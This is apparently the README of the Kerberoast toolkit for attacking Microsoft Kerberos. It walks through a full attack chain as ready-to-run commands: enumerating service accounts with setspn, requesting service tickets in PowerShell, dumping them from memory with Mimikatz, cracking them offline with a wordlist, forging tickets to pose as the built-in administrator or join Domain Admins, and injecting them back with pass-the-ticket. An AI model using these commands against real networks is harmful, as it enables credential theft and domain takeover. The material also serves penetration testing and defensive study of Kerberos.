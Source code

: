 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
```
PS C:\> setspn -T medin -Q */*
```

Request Ticket(s)
-----------------
One ticket:  
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  
```

All the tickets
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
```
mimikatz # kerberos::list /export
```

Crack with rgsrepcrack
----------------------
```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

Rewrite
-------
Make user appear to be a different user  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  
```
Inject back into RAM with Mimikatz
----------------------------------
```
kerberos::ptt sql.kirbi
```
